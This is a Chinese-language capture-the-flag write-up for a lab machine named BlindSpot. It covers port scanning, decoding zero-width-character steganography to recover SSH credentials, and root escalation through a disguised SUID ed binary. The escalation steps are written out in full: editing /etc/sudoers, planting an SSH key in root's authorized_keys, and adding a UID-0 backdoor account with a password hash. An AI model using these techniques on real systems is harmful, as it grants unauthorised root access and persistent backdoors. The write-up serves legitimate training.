

| 作者     | 难度 | 平台    |
| -------- | ---- | ------- |
| Sublarge | baby | mazesec |

## 信息收集

```sh
╭─ ~ ─────────────────────────────────────────────────────────────────── ✔  root@kali  04:33:58 
╰─ nmap 192.168.56.122
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-28 04:35 -0400
Nmap scan report for 192.168.56.122
Host is up (0.0018s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:DD:F7:2F (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.91 seconds

╭─ ~ ─────────────────────────────────────────────────────────────────── ✔  root@kali  04:35:49 
╰─ nmap 192.168.56.122 -p22,80 -sC -sV
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-28 04:35 -0400
Nmap scan report for 192.168.56.122
Host is up (0.0014s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.3 (protocol 2.0)
80/tcp open  http    Werkzeug httpd 3.1.8 (Python 3.14.3)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: Werkzeug/3.1.8 Python/3.14.3
MAC Address: 08:00:27:DD:F7:2F (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.21 seconds
```

访问页面发现：

```sh
╭─ ~ ────────────────────────────────────────────────────────────── ✔  8s  root@kali  04:36:07 
╰─ curl -i http://192.168.56.122
HTTP/1.1 200 OK
Server: Werkzeug/3.1.8 Python/3.14.3
Date: Thu, 28 May 2026 08:53:34 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 616
Connection: close

Flag is not here​‍‍​​‍‍​​‍‍​‍‍​​​‍‍​​​​‍​‍‍​​‍‍‍​‍‍‍‍​‍‍​​‍‍​​​‍​‍‍​‍‍‍​​‍‍‍​‍‍​​​‍‍​​​‍​​‍‍​‍​‍​​‍‍​​​‍​‍‍​​​‍​​​‍‍​​​‍​​‍‍​​‍‍​​‍‍‍​‍​​‍‍​‍​​‍​‍‍​‍‍‍​​‍‍‍​‍‍​​‍‍​‍​​‍​‍‍‍​​‍‍​‍‍​‍​​‍​‍‍​​​‍​​‍‍​‍‍​​​‍‍​​‍​‍​‍‍‍‍‍​‍ 
```

可以看到后面存在内容。

```sh
╭─ /tmp/123 ──────────────────────────────────────────────────────────── ✔  root@kali  04:59:24 
╰─ curl http://192.168.56.122 > flag.txt

╭─ /tmp/123 ──────────────────────────────────────────────────────── INT ✘  root@kali  05:00:16 
╰─ cat -A flag.txt
Flag is not hereM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^MM-bM-^@M-^KM-bM-^@M-^M# 
```

猜测是零宽字节隐写，零宽字符隐写的原理就是：`把数据转换为二进制数据，'\u200b'取代二进制里的 0，'\u200d'取代二进制里面的1`，下面是脚本：

```python
ZERO = '\u200b'
ONE = '\u200d'

def decode(text):
    binary = ''
    for ch in text:
        if ch == ZERO:
            binary += '0'
        elif ch == ONE:
            binary += '1'

    charslist = []

    for i in range(0, len(binary), 8):
        byte = int(binary[i:i+8], 2)
        charslist.append(chr(byte))

    return ''.join(charslist)

if __name__ == '__main__':
    with open('flag.txt', 'r') as f:
        text1 = f.read()
        print(decode(text1))

# 运行结果：        
╭─ /tmp/123 ─────────────────────────────────────────────────────── ✔  5s  root@kali  05:38:39 
╰─ python zeroone.py   
flag{1nv151b13:invisible}
```

得到了 ssh 凭证：`1nv151b13:invisible`

## SSH 初始访问

```sh
╭─ /tmp/123 ──────────────────────────────────────────────────────────── ✔  root@kali  06:25:58 
╰─ ssh 1nv151b13@192.168.56.122 -p 22
The authenticity of host '192.168.56.122 (192.168.56.122)' can't be established.
ED25519 key fingerprint is: SHA256:xJ90oWmr5sPR2afHz9etzSdtxINmLI+JvbwgV/iCsWY
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:14: [hashed name]
    ~/.ssh/known_hosts:23: [hashed name]
    ~/.ssh/known_hosts:24: [hashed name]
    ~/.ssh/known_hosts:26: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.122' (ED25519) to the list of known hosts.
1nv151b13@192.168.56.122's password: 
              _                          
__      _____| | ___ ___  _ __ ___   ___ 
\ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \
 \ V  V /  __/ | (_| (_) | | | | | |  __/
  \_/\_/ \___|_|\___\___/|_| |_| |_|\___|

1nv151b13@BlindSpot:~$ ls -al
total 12
drwxr-sr-x    2 1nv151b13 1nv151b13      4096 May 17 22:33 .
drwxr-xr-x    3 root     root          4096 May 17 22:12 ..
-rw-r--r--    1 root     1nv151b13        44 May 17 22:33 user.txt
1nv151b13@BlindSpot:~$ cat user.txt
flag{user-1f1ae47bd96611161d31fc093e6100ac}
```

## 系统内部信息收集

```
1nv151b13@BlindSpot:~$ find / -perm -4000 -exec ls -al {} \; 2>/dev/null
-rwsr-xr-x    1 root     root         30768 May 16 00:20 /bin/umount
---s--x--x    1 root     root         14224 Jan 10 23:38 /bin/bbsuid
-rwsr-xr-x    1 root     root         38960 May 16 00:20 /bin/mount
-rwsr-xr-x    1 root     root         51504 May 17 22:22 /usr/bin/ 
-rwsr-xr-x    1 root     root         26824 Apr 10 03:19 /usr/bin/expiry
-rwsr-xr-x    1 root     root         48464 Apr 10 03:19 /usr/bin/chsh
-rwsr-xr-x    1 root     root         80552 Apr 10 03:19 /usr/bin/chage
-rwsr-xr-x    1 root     root         88968 Apr 10 03:19 /usr/bin/passwd
-rwsr-xr-x    1 root     root         67680 Apr 10 03:19 /usr/bin/gpasswd
-rwsr-xr-x    1 root     root        199632 Jan 23 13:06 /usr/bin/sudo
-rwsr-xr-x    1 root     root         50032 Apr 10 03:19 /usr/bin/chfn
```

看到一个可疑文件：`/usr/bin/ `。

```sh
1nv151b13@BlindSpot:~$ strings '/usr/bin/ '
# 发现了一些内容：
Shell access restricted
Directory access restricted
Newline character not allowed in file names
Control characters not allowed in file names
Memory exhausted.
GNU ed is a line-oriented text editor. It is used to create, display,
modify and otherwise manipulate text files, both interactively and via
```

`/usr/bin/ ` 看起来像是 `ed` 二进制文件。

```sh
1nv151b13@BlindSpot:~$ md5sum "/usr/bin/ " "/bin/ed"
380269341cc778c4b3b80ddcefba7ef7  /usr/bin/ 
380269341cc778c4b3b80ddcefba7ef7  /bin/ed
```

验证两个文件是否内容相同，利用hash值验证，还可以使用`sha1sum sha256sum`。

`ed`的shell提权无法使用，会降级。

## 权限提升



 `ed` 有写入的能力，可以修改`/etc/passwd 、/etc/shadow、/root/.ssh/authorized_keys`，获取root权限：

方法一：

```sh
1nv151b13@BlindSpot:~$ '/usr/bin/ ' /etc/sudoers
5053
a
1nv151b13 ALL=(ALL:ALL) NOPASSWD: ALL
.
w
5081
q
1nv151b13@BlindSpot:~$ sudo su
root@BlindSpot:/home/1nv151b13# 
```

方法二：

```sh
1nv151b13@BlindSpot:~/.ssh$ '/usr/bin/ ' /root/.ssh/authorized_keys
81
a
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfy3402O5EN6KOaInOukRh3bNQwoLDjEs88Wb+TuN3f root@kali
.
w
172
q

╭─ ~/.ssh ────────────────────────────────────────────────────────────── ✔  root@kali  06:53:39 
╰─ ssh root@192.168.56.122 -p 22
              _                          
__      _____| | ___ ___  _ __ ___   ___ 
\ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \
 \ V  V /  __/ | (_| (_) | | | | | |  __/
  \_/\_/ \___|_|\___\___/|_| |_| |_|\___|

root@BlindSpot:~# 
```

方法三：

```sh
1nv151b13@BlindSpot:~/.ssh$ '/usr/bin/ ' /etc/shadow
645
a
backdoor:$6$xqxSEc.pyQksUhEa$IfVc1QV92zzeBy3etMOMpuN2zW5nPPH5FYksFhIa/LisPbWVQ8Q/ErXOULi7M2vEPz2Gku8aC9AcLrK5ou5C1.:20590:0:99999:7:::
.
w
780
q
1nv151b13@BlindSpot:~/.ssh$ '/usr/bin/ ' /etc/passwd
846
a
backdoor:x:0:0:root:/root:/bin/bash
.
w
886
q
C:\Users\325[hidden]>ssh backdoor@192.168.56.122 -p 22
backdoor@192.168.56.122's password:
              _
__      _____| | ___ ___  _ __ ___   ___
\ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \
 \ V  V /  __/ | (_| (_) | | | | | |  __/
  \_/\_/ \___|_|\___\___/|_| |_| |_|\___|

root@BlindSpot:~#
```

## 总结

靶机反应出我的问题：

* sudo : 只停留在`sudo -l`
* suid : 会搜索，但是无法准确找出有问题的 suid 二进制文件

问题已解决
